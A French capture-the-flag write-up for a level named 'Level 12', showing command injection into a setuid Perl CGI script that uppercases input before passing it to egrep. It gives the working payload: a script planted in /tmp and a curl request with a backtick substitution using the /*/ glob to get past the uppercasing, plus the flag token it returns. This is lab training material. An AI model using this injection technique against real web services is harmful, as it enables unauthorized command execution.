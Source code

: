 # Level 12

Home structure
```
$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

Comme le script dans level 04, le script récupère les paramètres `x` et `y` d'une requête HTTP, exécute la commande système `egrep` pour rechercher dans le fichier `/tmp/xd` en utilisant la valeur de `x` en ayant mis toutes les lettres en majuscules avant, puis affiche des points en fonction des résultats de la recherche et de la valeur de `y`. Le nombre de points affichés dépend de la correspondance trouvée et de la valeur de `y`.

Ce qui voudrait dire qu'on pourrait executer n'importe quel commandes via le paramètre `x`.

On pourrait tous simplement essayer: `curl localhost:4646/level12.pl?x='${getflag}'`, mais on va que le script va rendre le paramètre X tous en maj. Donc ce qui nous fait `${GETFLAG}` et la commande `GETFLAG` n'existe pas. Alors ce qui faudrait faire c'est le créer.

```
$ echo "getflag | wall" > /tmp/GETFLAG
$ chmod 777 /tmp/GETFLAG
$ curl localhost:4646/level12.pl?x='`/*/GETFLAG`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Obligé de mettre le `/*/` pour eviter de devoir taper `/tmp/` qui va se transformer en `/TMP/` ce qui n'existe pas.